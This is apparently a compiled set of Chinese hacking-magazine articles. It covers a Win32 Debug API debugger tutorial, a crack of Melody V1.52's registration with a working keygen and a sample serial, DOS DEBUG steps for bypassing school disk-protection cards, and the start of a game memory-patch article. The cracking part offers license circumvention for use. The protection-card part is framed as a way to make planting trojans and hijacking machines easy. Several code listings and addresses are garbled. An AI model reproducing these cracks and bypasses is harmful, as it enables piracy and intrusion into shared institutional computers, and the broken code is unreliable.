除本文方法外，还可通过运行时动态修改窗口消息循环、修改Delphi资源Stub Parse Code、直接提取功能代码重构EXE等方式突破功能限制。

| 适合读者 | 逆向工程爱好者；程序员 |
|---|---|
| 前置知识 | 程序设计基础；软件逆向基础 |
| 难度等级 | 高 |

Icefire：随着整个程序设计领域对逆向工程研究的日益深入，各式各样的动态调试工具越来越多，其中有专门配套自己编译器而发售的Debugger——如微软的Visual Studio Debugger、WinDbg；英特尔的Intel Debugger For Windows；FSF自由软件基金会的GNU Debugger等。也有作为专门的Debug工具而单独出品的——如Compuware公司的Soft-ice、IDA 4.5版以后自带的IDA Debugger，作为免费软件发布的OllyDbg等。这些形形色色的Debugger软件为我们提供了从源代码到汇编语言全方位的调试工具，给所有的程序员和逆向工程者带来了极大的方便。

可所有的这些工具毕竟都是“通用型”调试工具，虽然在完成一些日常的、普通的调试工作完全可以满足要求，但是一旦我们需要自己定义一些“特殊过程”（写脱壳机、内存注册机、程序运行时监控等），这些通用型的调试软件就不能给我们多少帮助了，这时候我们就需要自己动手，丰衣足食，利用操作系统提供给我们的调试接口，打造自己的Debugger调试程序。

## 利用 Win32 Debug API 打造自己的 Debugger

文／图 木头

很多朋友都梦想有自己的Debugger程序，今天我们就来自己制作一个。作为一个Debugger程序，其最基本的功能框架其实就是完成如下两件事情。

- 启动目标程序。
- 实时监控目标程序的运行，并做出相应的应对。

我们要打造自己的Debugger程序，实际上也只须完成这两个功能就可以了。当然，要完成这两个特定的功能，我们不可能从头开始造轮子，要首先看看操作系统给我们提供了什么样的基础设施。

由于我们是在Windows平台上工作，自然离不开微软公司提供的文档大全——MSDN。翻开MSDN，定位到“Debugging and Error Handling”，一些最基本的Windows Debug信息都在这里面。不过与其他栏目相比，这个栏目的信息明显单薄许多，也许越是底层、强大的技术，微软越不想公开吧。

初步浏览之后，我们可以确定，对于我们的Debugger而言，最重要的Debug API有如下几个：

- CreateProcess —— 用于创建被调试进程
- WaitForDebugEvent —— Debug Loop（调试循环）的主要构成函数
- ContinueDebugEvent —— 用于构成Debug Loop
- GetThreadContext —— 得到被调试进程的寄存器信息
- SetThreadContext —— 设置被调试进程的寄存器信息
- ReadProcessMemory —— 得到被调试进程的内存内容
- WriteProcessMemory —— 设置被调试进程的内存内容

- CONTEXT —— 寄存器结构
- STARTUPINFO —— Start信息
- PROCESS_INFORMATION —— 进程相关信息
- DEBUG_EVENT —— Debug Event（调试事件）结构

可以说，我们的Debugger程序就是利用这几个API函数，结合下面的几个数据结构，完成我们指定的功能。那么下面就让我们先来看看这几个API和数据结构的具体含义。

### Debug API 解析

在这里，我们将对上面所述的几个Debug调试API做一个检阅式的考察，大概介绍一下每个API的应用领域。而将这些API应用到具体实践中去，将会在下一部分“实例解析”中，给出详细的说明。

#### 1. CreateProcess

函数原型：`BOOL CreateProcess`

```c
LPCTSTR lpApplicationName,              // 要创建的进程模块名
LPTSTR lpCommandLine,                   // 命令行字符串
LPSECURITY_ATTRIBUTES lpProcessAttributes, // 进程安全属性
LPSECURITY_ATTRIBUTES lpThreadAttributes,  // 线程安全属性
BOOL bInheritHandles,                   // 句柄继承选项
DWORD dwCreationFlags,                  // 进程创建选项
LPVOID lpEnvironment,                   // 进程环境块数据指针
LPCTSTR lpCurrentDirectory,             // 当前目录名
LPSTARTUPINFO lpStartupInfo,            // 启动信息
LPPROCESS_INFORMATION lpProcessInformation // 进程信息
```

函数解析：该函数是Windows平台提供的最基本的创建进程的函数，每当我们双击一个EXE可执行文件时，Windows内核就会自动调用该函数创建我们双击的文件所对应的进程。该函数中，最重要的参数有3个：一个是进程模块名，指明了要创建哪个进程；一个是进程创建选项，指明了要如何创建目标进程。对于Debugger程序而言，最常用的创建选项就是 `DEBUG_PROCESS | DEBUG_ONLY_THIS_PROCESS`。最后还有一个就是进程信息，我们调用CreateProcess创建了进程以后，Windows会将新创建的进程的相关信息全部放到ProcessInfo信息块中，我们在Debug Loop调试循环中使用进程信息块中的数据与目标进程交互，监视和控制目标进程的动作。

#### 2. WaitForDebugEvent

函数原型：`BOOL WaitForDebugEvent`

```c
LPDEBUG_EVENT lpDebugEvent;   // Debug Event（调试事件指针）
DWORD dwMilliseconds;         // 超时设置
```

函数解析：该函数构成了Debug Loop调试循环的主体，一个Debugger程序在创建出目标进程后，一般都会紧接着循环调用该函数等待目标进程的各种调试信息。这个循环调用WaitForDebugEvent的过程，我们就称之为Debug Loop调试循环。调试循环是所有Debugger程序的主体部分，Debugger几乎所有的监视、控制、调整的功能都是在调试循环内完成的。一般来说，此处的超时设置都设为 `-1`，也就是无穷等待下去。该函数是非阻塞函数，在没有Debug Event发生、处于等待的过程中，仅消耗极其微小的系统资源。

#### 3. ContinueDebugEvent

函数原型：`BOOL ContinueDebugEvent(`

```c
DWORD dwProcessId;      // 目标进程ID
DWORD dwThreadId;       // 目标线程ID
DWORD dwContinueStatus; // 线程继续的标志
```

函数解析：该函数主要用于Debugger在Debug Loop调试循环中，处理完Debug Event后，通知目标进/线程继续运作。通常情况下，目标进程ID和目标线程ID这两个参数，都是CreateProcess调用后ProcessInfo结构中所包含的信息。该函数通过目标进程/线程ID来唯一标识目标进/线程，并且通过设置不同的ContinueStatus来通知目标进/线程继续运行的动作。最主要的ContinueStatus有两种选择：`DBG_CONTINUE`（调试事件已经被Debugger处理完毕）；`DBG_EXCEPTION_NOT_HANDLED`（Debugger并未处理该调试事件，继续沿着Windows异常调用链发送，直到该调试事件被处理完为止）。

#### 4. GetThreadContext & SetThreadContext

函数原型：`BOOL GetThreadContext`

```c
HANDLE hThread;          // 目标线程句柄
LPCONTEXT lpContext;     // CONTEXT 结构

BOOL SetThreadContext(
  HANDLE hThread,          // 目标线程句柄
  CONST CONTEXT *lpContext // CONTEXT 结构
);
```

函数解析：这两个函数分别用来得到和设置目标线程的寄存器内容。请注意，在Windows操作系统中，调度最小单位是线程而不是进程，因此应明确具体线程所对应的寄存器。函数参数中的 `hThread` 通常来源于CreateProcess后得到的ProcessInformation中的 `hThread` 成员，而 `CONTEXT` 结构则依据不同硬件平台而有不同定义（Intel、MIPS、Alpha、PowerPC等）。

#### 5. ReadProcessMemory & WriteProcessMemory

函数原型：`BOOL ReadProcessMemory`

```c
HANDLE hProcess;                 // 进程句柄
LPCVOID lpBaseAddress;           // 欲读取内存基地址
LPVOID lpBuffer;                 // 数据缓冲区指针
SIZE_T nSize;                    // 欲读取的内存长度
SIZE_T *lpNumberOfBytesRead;     // 实际读取长度

BOOL WriteProcessMemory(
  HANDLE hProcess,               // 进程句柄
  LPVOID lpBaseAddress,          // 欲写入内存基地址
  LPCVOID lpBuffer,              // 数据缓冲区指针
  SIZE_T nSize,                  // 欲写入长度
  SIZE_T *lpNumberOfBytesWritten // 实际写入长度
);
```

函数解析：这两个函数分别用于“读取”和“写入”目标进程的内存地址空间。与寄存器操作不同，Windows对内存分配粒度以进程为单位。每个进程拥有独立（典型为4GB）的虚拟地址空间，其线程共享该空间。读取/写入内存时需要进程句柄、基地址与长度参数，基地址应是进程虚拟地址空间中的有效地址。

### DEBUG_EVENT 全面剖析

在整个调试循环中，Debugger和目标进程之间调试信息的交互完全是通过调用WaitForDebugEvent时传递的 `DEBUG_EVENT` 结构参数。该结构的定义初看起来似乎很简单。

```c
typedef struct _DEBUG_EVENT {
    DWORD dwDebugEventCode;
    DWORD dwProcessId;
    DWORD dwThreadId;
    union {
        EXCEPTION_DEBUG_INFO Exception;
        CREATE_THREAD_DEBUG_INFO CreateThread;
        CREATE_PROCESS_DEBUG_INFO CreateProcessInfo;
        EXIT_THREAD_DEBUG_INFO ExitThread;
        EXIT_PROCESS_DEBUG_INFO ExitProcess;
        LOAD_DLL_DEBUG_INFO LoadDll;
        UNLOAD_DLL_DEBUG_INFO UnloadDll;
        OUTPUT_DEBUG_STRING_INFO DebugString;
        RIP_INFO RipInfo;
    } u;
} DEBUG_EVENT, *LPDEBUG_EVENT;
```

不过就是一个 Union 联合域加上三个普通的信息数据。可细细推敲之下，这个结构所实现的功能却绝对不简单。让我们做一个最简单的思考，作为 Debugger，至少应该能够收到：

- 目标进程启动
- 目标进程发生异常
- 目标进程退出

这三个最基本的调试信息，而且每个信息所对应的信息类型应该都不太一样，比如：

- 目标进程启动时，我们需要的是目标进程的模块名字、权限设置等启动信息。
- 目标进程异常时，我们应该能够知道异常的地址、异常的原因（这里面分类又很多）、异常的严重程度。
- 目标进程退出时，我们应该能够知道进程的退出值，用来确定进程是否属于正常退出。

上面所列出的，还只是一些最基本的要素而已。如果要构成整个 Windows Debug API 的数据交互层，那情况还要复杂得多。将这么多错综复杂的信息全部用一个结构表示，其难度可想而知。

微软公司在这里选择的方法是通过 dwDebugEventCode 标识最基本信息，然后通过 Union 联合域将各种信息全部包罗进去的方法。这种做法的优点是在 WaitForDebugEvent 调用时，只须传递一个统一的结构参数即可；缺点就是 DEBUG_EVENT 结构内部信息异常复杂，给程序设计带来不小的麻烦。

我们在使用 DEBUG_EVENT 结构时，首先要得到 dwDebugEventCode 的值，从而确定 Union 联合域内是什么内容。两者之间的对应关系如下表所示。

| dwDebugEventCode 的值 | Union 联合域类型 | 调试信息 |
|---|---|---|
| EXCEPTION_DEBUG_EVENT | EXCEPTION_DEBUG_INFO | 应用程序发生异常 |
| CREATE_THREAD_DEBUG_EVENT | CREATE_THREAD_DEBUG_INFO | 线程创建 |
| CREATE_PROCESS_DEBUG_EVENT | CREATE_PROCESS_DEBUG_INFO | 进程创建 |
| EXIT_THREAD_DEBUG_EVENT | EXIT_THREAD_DEBUG_INFO | 线程退出 |
| EXIT_PROCESS_DEBUG_EVENT | EXIT_PROCESS_DEBUG_INFO | 进程退出 |
| LOAD_DLL_DEBUG_EVENT | LOAD_DLL_DEBUG_INFO | DLL 载入 |
| UNLOAD_DLL_DEBUG_EVENT | UNLOAD_DLL_DEBUG_INFO | DLL 卸载 |
| OUTPUT_DEBUG_STRING_EVENT | OUTPUT_DEBUG_STRING_INFO | 输出 Debug 字符串 |
| RIP_EVENT | RIP_INFO | 系统调试错误 |

上表仅仅是 DEBUG_EVENT 结构数据解析的第一层，当 Union 联合域取得各个不同的值时，这些第二层的数据结构并不比这一层简单多少。不过幸运的是，大部分时间我们解析 DEBUG_EVENT 结构只需要解析到第二层就可以了。

一般情况下，我们最感兴趣的 DebugEventCode 就是 EXCEPTION_DEBUG_EVENT，而不巧的是，EXCEPTION_DEBUG_EVENT 所对应的 EXCEPTION_DEBUG_INFO 结构也是所有 Union 联合域结构中最复杂的一个，因此有必要在此再对 EXCEPTION_DEBUG_INFO 这个二级数据结构做进一步的详细说明：

```c
typedef struct _EXCEPTION_DEBUG_INFO {
    EXCEPTION_RECORD ExceptionRecord;
    DWORD dwFirstChance;
} EXCEPTION_DEBUG_INFO, *LPEXCEPTION_DEBUG_INFO;
```

① dwFirstChance：如果为 0，表示该异常从前未被处理过，也就是当前我们的 Debugger 程序处于 Windows 异常处理链条的头部。

② ExceptionRecord：该结构内部的信息是 EXCEPTION_DEBUG_INFO 结构的真实存储地点。因此，继续剖析该结构。

```c
typedef struct _EXCEPTION_RECORD {
    DWORD ExceptionCode;
    DWORD ExceptionFlags;
    struct _EXCEPTION_RECORD *ExceptionRecord;
    PVOID ExceptionAddress;
    DWORD NumberParameters;
    ULONG_PTR ExceptionInformation[EXCEPTION_MAXIMUM_PARAMETERS];
} EXCEPTION_RECORD, *PEXCEPTION_RECORD;
```

首先要注意到，该结构内部有一个类型为 EXCEPTION_RECORD* 的数据成员，这是 C 语言里经典的串联数据方式。用一个指针域连接各个数据成员，可以构成经典的“链表”数据结构（英文里管这种做法叫做 Chain）。

其次，ExceptionCode 成员标识了该结构所代表的 EXCEPTION_RECORD 的类型，Windows 内部定义了如下 20 种异常行为：

| 值 | 含义 |
|---|---|
| EXCEPTION_ACCESS_VIOLATION | 存取越界 |
| EXCEPTION_ARRAY_BOUNDS_EXCEEDED | 由硬件监测到的数组访问越界 |
| EXCEPTION_BREAKPOINT | 触发断点 |
| EXCEPTION_DATATYPE_MISALIGNMENT | 数据未对齐 |
| EXCEPTION_FLT_DENORMAL_OPERAND | 浮点操作数范围越界（太小或太大） |
| EXCEPTION_FLT_DIVIDE_BY_ZERO | 浮点操作除数为 0 |
| EXCEPTION_FLT_INEXACT_RESULT | 浮点运算结果不能用小数准确表示 |
| EXCEPTION_FLT_INVALID_OPERATION | 其他未知的浮点数错误 |
| EXCEPTION_FLT_OVERFLOW | 浮点操作太大溢出 |
| EXCEPTION_FLT_STACK_CHECK | 浮点栈溢出 |
| EXCEPTION_FLT_UNDERFLOW | 浮点操作太小溢出 |
| EXCEPTION_ILLEGAL_INSTRUCTION | 执行非法指令 |
| EXCEPTION_IN_PAGE_ERROR | 存取未存在的内存页 |
| EXCEPTION_INT_DIVIDE_BY_ZERO | 除数为 0 |
| EXCEPTION_INT_OVERFLOW | 整数操作最高位溢出 |
| EXCEPTION_INVALID_DISPOSITION | 错误的异常处理程序地址 |
| EXCEPTION_NONCONTINUABLE_EXCEPTION | 遇到不能继续执行的异常 |
| EXCEPTION_PRIV_INSTRUCTION | 当前模式下，不能执行该指令 |
| EXCEPTION_SINGLE_STEP | 单步跟踪断点触发 |
| EXCEPTION_STACK_OVERFLOW | 线程的栈空间溢出 |

一般而言，我们的 Debugger 程序处理得最多的异常情况就是 EXCEPTION_BREAKPOINT 和 EXCEPTION_SINGLE_STEP。例如，我们需要在目标进程运行到 0x00400000 地址的时候对目标进程进行一些操作，那么我们只要设法让目标程序运行到 0x00400000 的时候向我们的 Debugger 程序发出异常信号，那么我们的 Debugger 程序就能收到该信号，并进而通过前面介绍的 Set/GetThreadContext 和 Read/WriteProcessMemory 函数对目标进程进行控制操作。

### 一个最初步的 Debugger 框架

既然上面所述的内容现在已经足够我们写出一个最基本的 Debugger 了，那么我们就来“实战演习”一番，先写出一个最基本的 Debugger 程序，该程序完成的功能异常简单，利用 CONTEXT_FULL | CONTEXT_DEBUG_REGISTERS 作为标志，创建一个进程，并让目标进程能够照常地运作起来。

首先跳入我们脑海的代码大概如下所示：

```c
CreateProcess(_T("Msg.exe"), NULL, NULL, NULL, NULL,
    DEBUG_PROCESS|DEBUG_ONLY_THIS_PROCESS,
    NULL, NULL, &sif, &pi);

// 这个下面就是大名鼎鼎的 Debug 框架
do {
    WaitForDebugEvent(&DBEvent, INFINITE);
    dwState = DBG_EXCEPTION_NOT_HANDLED;
    case EXIT_PROCESS_DEBUG_EVENT:
    {
        STOP = TRUE;
        break;
    }
    if (!STOP)
        ContinueDebugEvent(pi.dwProcessId, pi.dwThreadId, dwState);
} while (!STOP);
```

编译，双击，很不幸！Windows 给了我们如图 1 所示的提示。

图1

为什么会出现上面这种错误情况？微软的文档里面并没有对 Debugger 具体应该如何工作做出详细的说明。不过通过跟踪上面的程序，我们发现每次 Msg.exe 目标应用程序启动前，都会向我们的 Debugger 程序发送一个 EXCEPTION_BREAKPOINT 的断点信号，而我们的 Debug Loop 并没有对该信号进行处理。现在我们加入对该信号的处理过程，使我们的 Debugger 不返回 DBG_EXCEPTION_NOT_HANDLED，而返回 DBG_CONTINUE，具体到代码中，就是在

```c
case EXIT_PROCESS_DEBUG_EVENT
```

这一句之前，加入：

```c
case EXCEPTION_DEBUG_EVENT:
{
    switch (DBEvent.u.Exception.ExceptionRecord.ExceptionCode)
    {
        case EXCEPTION_BREAKPOINT:
            dwState = DBG_CONTINUE;
            break;
    }
    break;
}
```

编译，链接，试运行，一切 OK。Msg.exe 很正常地弹出了 MessageBox，如图 2 所示。

图2

### 从 C 到 C++

从上面那个最简单的调试框架代码不难看出，每当我们要增加一个处理判断的异常类型，都要在日益庞大复杂的 Switch-Case 代码中增加新的选择路线，程序的代码很容易就变得臃肿不堪且难以维护。而实际上整个代码的工作骨架并没有发生实质性的改变，变化的仅仅是针对各种不同的异常情况我们所需要的不同处理子过程，这不禁让我们想起了 Template 设计模式。我们可以将在 Debug Loop 中分解 DEBUG_EVENT 的代码放进框架代码中，然后在框架代码中调用不同的 hook 虚函数。这样，我们要扩展自己的 Debugger 功能时，只需要从已有的 debug_base 基类继承，重写 hook 虚方法即可。

随本文附带的 Debug_Base.h 中有 debug_base 类，该类就实现了如上所述的 Debugger Template 模板。该类最简单的使用如下所示：

```c
Debugger::debug_base debugger;
debugger.run_debug_loop(std::string(TEXT("Msg.exe")));
```

以上这两段代码，就实现了上一节所提到……

## 破解实录 / SECRET OF CRACK

Debug_base 提供了如下几个 hook 虚函数。

| hook 函数名 | 函数作用 |
|---|---|
| handle_first_exception | Windows 内核首次发送 EXCEPTION_BREAKPOINT 时的处理子过程 |
| handle_exception_breakpoint | 调试过程中 EXCEPTION_BREAKPOINT 的处理子过程 |
| handle_single_step | 调试过程中 EXCEPTION_SINGLE_STEP 的处理子过程 |
| handle_process_create | 进程创建处理子过程 |
| handle_process_exit | 进程退出处理子过程 |
| handle_thread_create | 线程创建处理子过程 |
| handle_thread_exit | 线程退出处理子过程 |
| handle_dll_load | DLL 载入时得到调用 |
| handle_dll_unload | DLL 卸载时得到调用 |
| handle_debug_wstring | 被调试程序调用 OutputDebugString 时得到调用 |

```c
debug_wstring()
{
    MessageBox(NULL, ATL::CW2T(debug_wstring.c_str()), TEXT("Debug String"), NULL);
    return;
}
```

而主程序并不需要做任何改变，该 Debugger 运行后，可以接受被调试程序的调试信息，并输出。

实际的编程过程中，我们只需要从 debug_base 派生出自己的新类，并重写其中需要的虚函数即可编译得到自己的 Debugger。比如让 Debugger 具有入口点中断提示、截获 Debug 字符串并输出等功能。

- 在程序入口点处中断，提示已到达入口点
- 截获被调试程序的 Debug 字符串，并输出

```c
class MyDebugger : public Debugger::debug_base
{
    virtual void handle_first_exception(const PROCESS_INFORMATION& pi)
    {
        MessageBox(NULL, TEXT("首次中断"), TEXT("Debugger Worked"), NULL);
        return;
    }

    virtual void handle_debug_wstring(std::wstring& ...)
    {
        ...
    }
};
```

### 5. 结束语

Windows 借助于 Debug API 为我们提供了一个功能全面的 Ring 3 级别调试平台。若能把握动态调试精髓并利用 Debug API 打造专有调试器，可用于多种程序分析场景。本文受篇幅所限仅作初步介绍，后续需结合底层资料持续实践与完善。

## 破解典型软件注册方式——Melody V1.52 注册流程分析

| 项目 | 内容 |
|---|---|
| 适合读者 | 初级破解爱好者 |
| 前置知识 | W32Dasm、OllyDBG 基本使用方法 |
| 难度等级 | 中 |

Icefire：很多朋友一听到破解，就联想到较多 PE 与 Win32 汇编知识，短期内难学会。本文选择较简单的软件分析作为指引，以 Melody V1.52 为例说明常见注册流程分析方法，帮助提升解密水平。

### 【软件简介】

Melody V1.52 是可播放 WAV、MPEG(MP3)、MIDI、MOD、IT、XM、S3M、ME、MPP、MDZ 等文件及音乐 CD 的多媒体播放程序，界面操作类似文件管理软件，支持的文件类型（歌曲）较多，所以在歌曲的播放控制上别有一种独特的风格。

该软件采用典型的注册流程。通过对话框输入的用户名计算出一个值，将这个值与输入的注册码比较，如果相等就注册通过，计算过程比较简单，而且软件没有加壳，可以直接反汇编分析，比较适合初学者练手。

- 【下载页面】
- http://www.lighttek.com/
- 【破解工具】
  1. W32Dasm，这是大家都熟悉的反汇编利器。
  2. OllyDBG，用户级调试器，专为调试 Win32 可执行文件而设计。

【破解过程】拿到一个未加壳的软件，首先开始第一次火力探测：了解软件的注册方式。

前面已经提到，这个软件的注册流程是典型的 username/serial 方式。在程序主界面点击“?”进入 About 对话框，看到字样为“Register your copy”的浮动按钮，点击进入，便弹出了输入注册信息的界面。我们随意输入用户名和注册码：

```text
name: cyclotron
Registration code: 78787878
```

点击 OK，BOOM！！！弹出错误提示对话框，如图 1 所示。

呵呵，正是我们所需要的，字符串突破口找到了——“Invalid registration name or code. Try again.”。亮出我们的反汇编利器 W32Dasm，打开 melody.exe，点击 String Ref 按钮查找出错字符串，双击来到关键代码处，如图 2 所示。

```text
* Referenced by a (U)conditional or (C)onditional Jump at Address: 00447387(C)
```

```text
Possible StringData Ref from Code Obj -> "Invalid registration name or code. Try again."
```

图2

往上滚动几行，可以发现这是一个子程序中的代码，我们可以在子程序的开始处设下断点 004472DB。好了，接下来就是 OllyDBG 发挥威力的时候了……现在我们已经位于 OllyDBG 之中：

```text
004472DB PUSH EBX
004472DC PUSH ESI
004472DD MOV EBX,EAX
004472DF XOR EAX,EAX
...
00447317 JE melody.00447460
```

上面两步是典型的注册信息的初步检查，采用了同一个子程序 melody.0041E208 来分别取得注册码和用户名。的地址，如果你连这两样东西都没有输入，那就不用再往下检验了。

```asm
0044731D  LEA EDX,DWORD PTR SS:[EBP-C]
; EDX 取得试炼码地址
00447320  MOV EAX,DWORD PTR DS:[EBX+1E0]
00447326  CALL melody.0041E208
; 取试炼码长度
```

为什么不用跟进子程序分析？多试几个注册码观察一下返回值就可以了。这可是 Cracker 的常用技巧哦，同时这里可以得出结论：melody.0041E208 这个子程序可以实现两个功能。

```asm
0044732B  MOV EAX,DWORD PTR SS:[EBP-C]
0044732E  CALL melody.00406D98
; 将试炼码转为16进制
```

如果你常用“78787878”作为试炼码的话，应该对它的几个变化结果非常熟悉，比如它的十六进制形式“4B23526”，这样有助于你加快分析速度。只要观察一下返回值就可以判断程序的功能。

```asm
00447333  MOV DWORD PTR SS:[EBP-14],EAX
00447336  FLD DWORD PTR SS:[EBP-4]
00447339  CALL melody.004029C8
0044733F  MOV DWORD PTR SS:[EBP-4],EAX
00447341  LEA EDX,DWORD PTR SS:[EBP-8]
00447344  MOV EAX,DWORD PTR DS:[EBX+1DC]
0044734A  CALL melody.0041E208
0044734F  XOR ESI,ESI
00447351  MOV EAX,DWORD PTR SS:[EBP-8]
00447354  CALL melody.00403BC4
00447359  TEST EAX,EAX
0044735B  JLE SHORT melody.0047370
0044735D  MOV EDX,1
00447362  MOV ECX,DWORD PTR SS:[EBP-8]
00447365  MOVZX ECX,BYTE PTR DS:[ECX+EDX-1]
0044736A  ADD ESI,ECX
0044736C  INC EDX
0044736D  DEC EAX
0044736E  JNZ SHORT melody.0047362
```

上面这个循环的功能大家都看到了，其作用是取得用户名各位的 ASCII 码之和，最后的结果保存在寄存器 ESI。

```asm
00447370  MOV DWORD PTR SS:[EBP-14],ESI
00447373  FLD DWORD PTR SS:[EBP-14]
00447376  CALL melody.004029C8
0044737B  MOV EDX,EAX
0044737D  SHL EAX,7
00447380  ADD EAX,EDX
00447382  MOV ESI,EAX
00447384  CMP ESI,DWORD PTR SS:[EBP-4]
; 关键比较
```

还记得 [EBP-4] 存放的是什么吗？对了，就是试炼码的16进制形式！到此为止，我们已经把整个注册流程分析清楚了。算法不是很难，但是很具有代表性：其注册码的计算方法就是把用户名所有字符的 ASCII 码加起来得到一个和，这个和再与它自己左移7位后的值相加，得到的结果转换为十进制数就是你的注册码了！是不是很简单？

```asm
00447387  JNZ melody.00447456
```

下面的程序段处理注册信息在界面上的显示，主要工作是将验证通过的注册信息写入注册表，然后在 About 对话框上显示一些授权信息（大家是不是都很期待这些字符呢？这可是你破解软件的证明哦！），不过 Cracker 的分析工作基本上也就到此为止了。

```asm
0044738D  MOV DL,1
0044738F  MOV EAX,DWORD PTR DS:[46328]
00447394  CALL melody.00446424
00447399  MOV ESI,EAX
0044739B  MOV CL,1
0044739D  MOV EDX,melody.004474A0
ASCII "\\software\\Lighttek\\Melody"
004473A2  MOV EAX,ESI
004473A4  CALL melody.0044651C
...
004473B7  MOV ECX,DWORD PTR SS:[EBP-C]
004473BA  MOV EDX,melody.004474C4
ASCII "username"
...
004473CF  CALL melody.0041E208
004473D4  MOV EAX,DWORD PTR SS:[EBP-C]
004473D7  CALL melody.00406D98
004473DC  MOV DWORD PTR SS:[EBP-14],EAX
004473DF  FLD DWORD PTR SS:[EBP-14]
004473E2  ADD ESP,-8
004473E5  FSTP QWORD PTR SS:[ESP]
...
004473E9  MOV EDX,melody.004474D8
ASCII "usercode"
...
004473F0  CALL melody.00446810
004473F7  CALL melody.00446488
```


有成就感呢？如图3所示。其实破解软件就这么简单！


图1

### 【Turbo C 注册机】

```c
#include "stdio.h"
#include "string.h"
void main()
{
    unsigned long regcode = 0L;
    char regname[30];
    printf("\n\t\tKeyGen for Melody V1.52\n\t\tProduced by cyclotron\n\n");
    do {
        printf("\nPlease input your Regname");
    } while(!strlen(gets(regname)));
    for(i = 0; regname[i]; i++)
        regcode += regname[i];
    regcode += regcode << 7;
    printf("\nYour Regcode is:\t%ld\n", regcode);
    printf("\nThank you for your use!\n");
    getchar();
}
```

- 【整理】：
- 用户名：cyclotron
- 注册码：127581
- 【注册信息保存】：

```text
HKEY_CURRENT_USER\Software\lighttek\Melody\usercode
HKEY_CURRENT_USER\Software\lighttek\Melody\username
```

把上面两个地方的注册信息删除，你就可以重新注册了，下面附上 tc20 的注册机源码，当然你也可以用其他的语言来编写啦。看着注册以后的 About 对话框，是不是很……


## 手工破解：硬件硬盘保护卡

文／马林

硬盘保护卡不用多说，相信大家都不陌生。它是一种可以保护硬盘数据不被恶意修改、删除的工具，常常用在学校等单位。但是，我想咱们“黑客”是不会向任何障碍低头的，更不用说是区区的硬盘保护卡。小弟深知“黑客”的重要使命，决定将知识面扩大到无限的范围（有点离谱）。实际上，我们只是要证明我们的实力。嘻嘻，设想如果连保护卡都不能阻挡我们了，那么装马、抓鸡不就简单得一塌糊涂了吗？

切入正题，正所谓知己知彼，百战不殆，想要攻破保护卡的防线就先要了解其工作原理。小弟查阅了不少资料（我是跋山涉水呀，翻山越岭……），将其原理用通俗平实的语言呈现给大家（其实我很谦虚……会不会被“扁”？）。

保护卡是一种硬件芯片，插在主板上与硬盘的 MBR 协同工作。它接管对硬盘进行读写操作的一个 INT 13 中断。在系统启动的时候首先用它自己的程序接管 INT 13 中断地址，这样，只要是对硬盘的读写操作都要经过保护卡的保护程序进行保护性的读写，也就是先将 FAT 文件分配表、硬盘主引导区、CMOS 信息、中断向量表等信息都保存到保护卡内的临时储存单元中，用来处理我们对硬盘内数据的修改。

每当我们向硬盘写入数据时，虽然最终还是写入到硬盘中，可是没有真正修改硬盘中的 FAT。由于保护卡接管 INT 13，当卡发现有写操作，便将原先数据目的地址重新指向先前的连续空磁盘空间，并将先前备份的第二份 FAT 中被修改的相关数据指向这片空间。当我们读取数据时，和写操作相反：当某程序访问某文件时，保护卡先在第二份备份的 FAT 中查找相关文件，如果是启动后修改过的，便在重新定向的空间中读取，否则在第一份备份的 FAT 中查找并读取相关文件。删除和写入数据也是一样，就是将文件的 FAT 记录从第二份备份的 FAT 中删除掉。这就是为什么系统重启后所有写操作一无所有的原因。

另外，无论我们怎样 FORMAT 硬盘都是无济于事的。最开始我就是用格式化的办法来对付它，可是总是失败。我心想世间怎能有这么结实的硬盘？后来才知道是因为保护卡接管了 INT 13，又因为 INT 13 中 05H 和 06H 功能便是格式化，所以咱们仍然没有真正修改硬盘中的 FAT。

以上就是硬盘保护卡的主要工作原理。没有展开，一来是小弟能力有限，另外，如果太详尽恐怕本文会被认为是骗稿费而被 WT 老大封杀，所以只是浅谈浅谈。下面我们说说最令人兴奋的内容。既然知道原理了，那么攻破其防线也就简单了，嘿嘿。

其实围绕硬盘保护的加密解密，关键就看谁使用得更底层。对于咱们来说，只要恢复 INT 13 的 BIOS 级中断向量就够了。具体如何操作呢？睁大眼睛不要打瞌睡，精彩内容即将呈现。

总体思路是找到 INT 13 的原始 BIOS 中断向量值，注入中断向量表。这样修改后再调用 INT 13，就又回到了真正的 FAT 上，这样我们也就达到了绕过保护卡的目的。其实这很简单，就如同破解 CMOS 的密码一样简单。好了，让我们开始吧（我采用 C 语言的注解形式进行解说【斜体】。以下为演示，除命令【粗体】外其余数值仅供参考，不同机器会出现不同的值，不用在意）。

进入纯 DOS，启动我们最亲切的 DEBUG：


然后输入命令 T，回车，不断地重复，直到显示的地址第一次出现 `F000:XXXX`（观察区域内方框所示）。记下这一地址。


就是这里，看见出现的 `F000:99F4`，记下这个地址。这里就打了4次 T，实际操作要 T 很久，而且要小心，注意一定要记下第一次出现 `F000:XXXX` 的值。这里仅是演示。


按观察区域所示输入相应命令。注意这4组两位数要反写，例如显示 `47 25 5D FD`，那么应当输入 `FD5D:2547`。多加注意，起初我在这里也出过几次错。

```asm
A FD5D:2547
FD5D:2547 JMP F000:99F4

### 注入原始入口
FD5D:254C
=Q

C:\WINDOWS>WIN
### 进入后修改并重启
```

进入后随便改几样东西，然后重启机器。怎么样？

变动保留下来了吧？不过还有几点说明，此方法只适用于有纯 DOS 的 OS……最后，为了表示咱们的职业道德，升华两句：技术的防范永远是有限的，务必正确学习和使用技术。

**Icefire：** 最近重大事件不少，怪的是编辑部都玩上了“是男人……”系列游戏。连续一星期小编们都在玩这几个小游戏，长期看见小编们一只手按着空格，一只手拿着书看……（引言段）


## “是男人就上一百层”系列

### 游戏内存补丁的实现

文/图 cyclotron

相信玩过游戏的朋友或多或少地都接触过一些游戏补丁或修改器……这里我将以曾一度成为男生噩梦的“做男人很难系列”游戏为例，选取其中的“是男人就下一百层”“是男人就上一百二十层”2个经典小游戏，详细讲解分析游戏并编写内存补丁的原理。

“以‘弹跳力无限’为例讲解这类功能的分析和实现。”“窗口始终在最上方”和“自动弹跳闯关”功能只是 Windows API 的简单应用……如果你没有基础但是又想学习，不妨和大家一起来操作。

- SoftICE
- 金山游侠
- W32Dasm
- OllyDBG
- EXEScope

在这个内存补丁中，一共实现了如图1所示的几种功能。其中“无限生命值”“蓄力加速”“弹跳力无限”实现的方法是类似的……


程序里最突出的功能就是“弹跳力无限”了。所谓“弹跳力无限”，就是指按住空格键不放，弹跳力就会不断增加……因此我们修改的基本思想就是改变游戏对这一数值的操作方式。


